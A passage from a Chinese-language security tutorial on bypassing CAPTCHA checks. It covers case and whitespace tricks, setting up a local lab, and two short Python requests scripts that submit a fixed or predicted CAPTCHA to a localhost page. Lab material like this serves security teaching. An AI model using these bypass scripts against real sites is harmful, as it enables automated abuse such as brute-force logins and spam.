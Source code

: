 **利用技巧**：
- **大小写绕过**：通过输入验证码的大写或小写形式绕过验证。
- **空格绕过**：通过在验证码前后添加空格绕过验证。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
**工具准备**：
- **Web服务器**：如Apache、Nginx。
- **编程语言**：如PHP、Python。
- **抓包工具**：如Wireshark、Burp Suite。
- **自动化工具**：如Selenium、Python的requests库。

**环境搭建**：
1. **搭建Web服务器**：在本地或虚拟机中搭建一个简单的Web服务器。
2. **编写验证码生成和验证代码**：使用PHP或Python编写一个简单的验证码生成和验证页面。
3. **部署代码**：将代码部署到Web服务器上，确保可以通过浏览器访问。

### 3.2 攻击步骤

#### 3.2.1 固定验证码绕过
1. **访问验证码页面**：通过浏览器访问验证码生成页面，获取验证码值。
2. **多次提交固定验证码**：使用自动化工具（如Python的requests库）多次提交固定验证码，直到成功。

```python
import requests

url = "http://localhost/verify_captcha.php"
fixed_captcha = "1234"

for i in range(100):
    data = {"captcha": fixed_captcha}
    response = requests.post(url, data=data)
    if "success" in response.text:
        print("Bypass成功！")
        break
```

#### 3.2.2 弱随机性绕过
1. **分析验证码生成算法**：通过查看验证码生成代码，分析算法是否存在缺陷。
2. **预测验证码**：根据分析结果，预测下一个验证码值。
3. **提交预测验证码**：使用自动化工具提交预测的验证码。

```python
import requests

url = "http://localhost/verify_captcha.php"
predicted_captcha = "5678"

data = {"captcha": predicted_captcha}
response = requests.post(url, data=data)
if "success" in response.text:
    print("Bypass成功！")
```
